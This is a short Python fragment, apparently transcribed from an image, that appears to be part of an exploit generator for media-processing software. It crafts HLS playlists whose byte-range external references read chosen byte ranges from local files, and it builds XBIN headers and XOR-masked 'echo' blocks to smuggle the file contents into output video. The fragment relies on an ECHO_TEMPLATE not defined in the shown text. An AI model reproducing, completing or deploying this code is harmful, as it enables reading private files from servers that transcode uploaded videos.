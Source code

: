 ```python  
GAMMA = b'\x14\x0f\x0f\x10\x11\xb5"=yXw\x17\xff\xd9\xec:'

FULL_PLAYLIST = """#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
{content}
#### random string to prevent caching: {rand}
#EXT-X-ENDLIST"""

EXTERNAL_REFERENCE_PLAYLIST = """
####  External reference: reading {size} bytes from {filename} (offset {offset})
#EXTINF:1,
#EXT-X-BYTERANGE: {size}@{offset}
{filename}
"""

XBIN_HEADER = b'XBIN\x1A\x20\x00\x0f\x00\x10\x04\x01\x00\x00\x00\x00'


def echo_block(block):
    assert len(block) == 16
    iv = ''.join(map('{:02x}'.format, [x ^ y for (x, y) in zip(block, GAMMA)]))
    return ECHO_TEMPLATE.format(needed=block, iv=iv)


def gen_xbin_sync():
    seq = []
    for i in range(60):
        if i % 2:
            seq.append(0)
        else:
            seq.append(128 + 64 - i - 1)
    for i in range(4, 0, -1):
        seq.append(128 + i - 1)
    seq.append(0)
    seq.append(0)
    for i in range(12, 0, -1):
        seq.append(128 + i - 1)
    seq.append(0)
    seq.append(0)
    return seq


def test_xbin_sync(seq):
    for start_ind in range(64):
        path = [start_ind]
        cur_ind = start_ind
        while cur_ind < len(seq):
            if seq[cur_ind] == 0:
                cur_ind += 3
            else:
                assert seq[cur_ind] & (64 + 128) == 128
                cur_ind += (seq[cur_ind] & 63) + 3
            path.append(cur_ind)
        assert cur_ind == len(seq), "problem for path {}".format(path)


def echo_seq(s):
    assert len(s) % 16 == 0
    res = []
    for i in range(0, len(s), 16):
        res.append(echo_block(s[i:i + 16]))
    return ''.join(res)

```